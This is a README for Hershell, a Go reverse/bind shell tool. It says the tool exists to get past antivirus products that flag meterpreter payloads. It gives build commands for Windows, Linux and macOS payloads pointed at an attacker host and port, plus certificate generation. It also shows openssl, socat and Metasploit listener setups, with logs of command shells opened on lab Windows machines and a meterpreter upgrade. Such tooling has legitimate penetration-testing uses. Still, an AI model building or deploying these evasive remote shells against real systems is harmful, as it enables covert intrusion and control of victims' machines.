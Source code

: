 # Hershell

Simple TCP bind/reverse shell written in [Go](https://golang.org).

It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.

The goal of this project is to get a simple reverse shell, which can work on multiple systems,

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

### Building the payload

To simplify things, you can use the provided Makefile.
You can set the following environment variables:

- ``GOOS`` : the target OS
- ``GOARCH`` : the target architecture
- ``LHOST`` : the attacker IP or domain name (useless for bind shells)
- ``LPORT`` : the listener port
- ``TYPE`` : type of shell you want (can be ``reverse`` or ``bind``, default is ``reverse``)

For the ``GOOS`` and ``GOARCH`` variables, you can get the allowed values [here](https://golang.org/doc/install/source#environment).

However, some helper targets are available in the ``Makefile``:

- ``depends`` : generate the server certificate (required for the reverse shell)
- ``windows32`` : builds a windows 32 bits executable
- ``windows64`` : builds a windows 64 bits executable
- ``linux32`` : builds a linux 32 bits executable
- ``linux64`` : builds a linux 64 bits executable

For those targets, you just need to set the ``LHOST`` and ``LPORT`` environment variables.

## Examples

First of all, you will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=sysdream.com/O=Sysdream/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Custom target
$ make GOOS=windows GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Custom target
$ make GOOS=linux GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
# Predifined target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
$ make shell GOOS=darwin GOARCH=amd64 LHOST=192.168.0.12 LPORT=1234
```

## Listeners

On the server side, you can use the openssl integrated TLS server:

```bash
$ openssl s_server -cert server.pem -key server.key -accept 1234
Using default temp DH parameters
ACCEPT
bad gethostbyaddr
-----BEGIN SSL SESSION PARAMETERS-----
MHUCAQECAgMDBALALwQgsR3QwizJziqh4Ps3i+xHQKs9lvp5RfsYPWjEDB68Z4kE
MHnP0OD99CHv2u27THKvCHCggKEpgrPnKH+vNGJGPJZ42QylfkekhSwY5Mtr5qYI
5qEGAgRYgSfgogQCAgEspAYEBAEAAAA=
-----END SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES128-SHA:ECDHE-ECDSA-AES128-SHA:ECDHE-RSA-AES256-SHA:ECDHE-ECDSA-AES256-SHA:AES128-GCM-SHA256:AES256-GCM-SHA384:AES128-SHA:AES256-SHA:ECDHE-RSA-DES-CBC3-SHA:DES-CBC3-SHA
Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Shared Signature Algorithms: RSA+SHA256:ECDSA+SHA256:RSA+SHA384:ECDSA+SHA384:RSA+SHA1:ECDSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed
Supported Elliptic Curves: P-256:P-384:P-521
Shared Elliptic curves: P-256:P-384:P-521
CIPHER is ECDHE-RSA-AES128-GCM-SHA256
Secure Renegotiation IS supported
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or even better, use socat with its __readline__ module, which gives you a handy history feature:

```bash
$ socat readline openssl-listen:1234,fork,reuseaddr,verify=0,cert=server.pem
Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\LAB2\Downloads>
```

Or, and this is great, use a metasploit handler:

```bash
[172.17.0.2][Sessions: 0][Jobs: 0]: > use exploit/multi/handler
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set payload python/shell_reverse_tcp_ssl
payload => python/shell_reverse_tcp_ssl
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lhost 192.168.122.1
lhost => 192.168.122.1
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set lport 4444
lport => 4444
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set handlersslcert /tmp/data/server.pem
handlersslcert => /tmp/data/server.pem
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > set exitonsession false
exitonsession => false
[172.17.0.2][Sessions: 0][Jobs: 0]: exploit(handler) > exploit -j
[*] Exploit running as background job.

[-] Handler failed to bind to 192.168.122.1:4444
[*] Started reverse SSL handler on 0.0.0.0:4444
[*] Starting the payload handler...
[172.17.0.2][Sessions: 0][Jobs: 1]: exploit(handler) >
[*] Command shell session 1 opened (172.17.0.2:4444 -> 172.17.0.1:51995) at 2017-02-09 12:07:51 +0000
[172.17.0.2][Sessions: 1][Jobs: 1]: exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

Microsoft Windows [version 10.0.10586]
(c) 2015 Microsoft Corporation. Tous droits rservs.

C:\Users\lab1\Downloads>whoami
whoami
desktop-jcfs2ok\lab1

C:\Users\lab1\Downloads>
```

You can then use the ``sessions -u <id>`` command to upgrade to a meterpreter shell.

